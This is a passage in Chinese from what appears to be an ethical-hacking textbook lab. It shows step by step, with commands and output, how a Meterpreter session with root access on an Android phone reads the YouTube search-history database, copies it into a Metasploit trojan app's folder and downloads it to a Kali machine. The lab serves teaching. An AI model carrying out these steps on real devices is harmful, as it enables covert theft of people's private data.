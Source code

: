     图 9-8：授予 Meterpreter 超级用户权限

1.  使用`cd /data/data/com.google.android.youtube`进入目录，并通过`ls`列出该目录内容：

    ```
    `cd /data/data/com.google.android.youtube``ls`
    cache
    code_cache
    databases
    files
    no_backup
    shared_prefs
    ```

1.  *databases*文件夹包含应用程序使用的各种文件，其中包括一个存储 YouTube 搜索历史的文件。要找到该文件，输入命令`cd databases`和`ls`。

    ```
    `cd database``ls`
    ```

1.  在出现的文件短列表中，你会找到*history.db*文件。运行命令`cat history.db`查看设备的 YouTube 搜索历史记录。

    ```
    `cat history.db`
    ����h�!##�mat 3@tablesuggestionssuggestionsCREATE TABLE suggestions (_id INTEGER PRIMARY KEY,display1 TEXT UNIQUE ON CONFLICT REPLACE,display2 TEXT,query TEXT,date LONG)5I#indexsqlite_autoindex_suggestions_1suggestionW--ctableandroid_metada��677bryson payne ted talkbryson payne ted talkl0�/cale TEXT)
    ��7	bryson payne ted talk
    ```

    因为这是一个特殊的数据库格式文件，并非所有字符都是可打印的，但请查看最后一两行——我们搜索的“Bryson Payne TED Talk”可以以明文查看！如果你在 YouTube 上搜索其他视频，然后重新运行上面的命令(`cat history.db`)，你将看到新结果被添加到文件中。

1.  现在我们将下载 YouTube 搜索历史记录文件到 Kali 虚拟机。首先，我们需要将其复制到 Metasploit 木马应用的*files*文件夹中：

    ```
    `cp /data/data/com.google.android.youtube/databases/history.db /data/data/com.metasploit.stage/files`
    ```

1.  接下来，我们需要授予对复制文件的访问权限：

    ```
    `chmod 666 /data/data/com.metasploit.stage/files/history.db`
    ```

1.  按 CTRL-C（Mac 上是 CONTROL-C）退出 Android shell。Meterpreter 会提示是否终止*channel*（即 shell 连接）。输入`y`。

    ```
    ^C
    Terminate channel 1? [y/N] `y`
    ```

1.  你现在将回到普通的 Meterpreter 提示符，在哪里你可以将 YouTube 历史文件下载到 Kali 虚拟机的主文件夹（*/home/kali/*）：

    ```
    meterpreter > `download history.db`
    ```
